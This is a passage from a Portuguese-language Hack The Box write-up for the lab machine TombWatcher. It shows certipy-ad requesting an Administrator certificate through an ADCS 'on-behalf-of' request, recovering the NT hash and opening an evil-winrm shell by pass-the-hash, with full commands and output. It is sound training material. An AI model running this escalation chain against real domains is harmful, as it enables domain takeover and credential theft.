└─$ faketime "$(ntpdate -q DC01.tombwatcher.htb | cut -d ' ' -f 1,2)" certipy-ad req -u 'cert_admin@tombwatcher.htb' -p 'Password1!' -dc-ip $IP -target 'DC01.tombwatcher.htb' -ca 'tombwatcher-CA-1' -template 'User' -pfx 'cert_admin.pfx' -on-behalf-of 'tombwatcher\Administrator'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 4
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@tombwatcher.htb'
[*] Certificate object SID is 'S-1-5-21-1392491010-1358638721-2126982587-500'
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

Por fim, faço autenticação como usuário `Administrator` usando o certificado “**on-behalf-of**”, ou em nome do `Administrator`. 

```bash {14}
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/TombWatcher]
└─$ faketime "$(ntpdate -q DC01.tombwatcher.htb | cut -d ' ' -f 1,2)" certipy-ad auth -pfx 'administrator.pfx' -dc-ip $IP
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator@tombwatcher.htb'
[*]     Security Extension SID: 'S-1-5-21-1392491010-1358638721-2126982587-500'
[*] Using principal: 'administrator@tombwatcher.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@tombwatcher.htb': aad3b435b51404eeaad3b435b51404ee:f61db423bebe3328d33af26741afe5fc 
```

Para pegar a flag do root, usei a técnica `Pass-the-hash` com as credenciais do `Administrator` no `Evil-Winrm`.

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/TombWatcher]
└─$ evil-winrm -i tombwatcher.htb -u 'administrator' -H 'f61db423bebe3328d33af26741afe5fc'

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls ../desktop


    Directory: C:\Users\Administrator\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        6/10/2025   8:16 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Documents> cat ../desktop/root.txt
53b9f97a275d80d679c07b36dc0a27a6
```

---

## Conclusão

![[TombWatcherFinal.png | Mesma imagem do início, porém abaixo está escrito: Tombwatcher has been pwned.]]

Essa máquina foi bem desafiadora e instrutiva, aprendi sobre o conceito de `Tombstone` e pude explorar mais uma vulnerabilidade de `ADCS`. Também foi interessante ver como `ACLs` mal configuradas podem causar que um usuário com poucas permissões consiga escalar lateralmente e verticalmente.

